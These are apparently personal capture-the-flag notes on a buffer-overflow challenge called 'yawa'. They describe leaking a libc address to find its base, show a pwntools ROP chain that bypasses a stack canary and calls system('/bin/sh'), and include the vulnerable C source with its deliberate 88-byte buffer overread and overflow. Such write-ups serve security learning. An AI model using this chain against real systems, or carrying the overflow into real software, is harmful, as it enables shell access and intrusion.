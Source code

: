 #### method to [[Find base of libc]]:
So if we leak a function from the libc library, e.g puts, `grep "puts"` and work out how far from base of binary. Then subtract that from address leaked, we have the address of the base of the binary.



### Part 3: finding gadgets
I couldn't find a pop_rdi gadget using ropper so not sure where the author got the address of that gadget however the alt_solve.py script uses ropstar(I think that's what it's called?) to find them.

```
rop = ROP(libc)
rop.raw(b"A" * 88)
rop.raw(canary)
rop.raw(p64(0)) # saved rbp
rop.rdi = p64(next(libc.search(b"/bin/sh\x00")))
rop.raw(p64(rop.find_gadget(['ret']).address)) # stack aligning ret
rop.call("system")
p.send(rop.chain())
```

The code is self explanatory and worked nicely when added to my script:







 



### Source code for the program:
#source-code
```
  GNU nano 7.2                                           yawa.c                                                    
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void init() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
}

int menu() {
    int choice;
    puts("1. Tell me your name");
    puts("2. Get a personalised greeting");
    printf("> ");
    scanf("%d", &choice);
    return choice;
}

int main() {
    init();

    char name[88];
    int choice;

    while(1) {
        choice = menu();
        if(choice == 1) {
            read(0, name, 0x88);
        } else if(choice == 2) {
            printf("Hello, %s\n", name);
```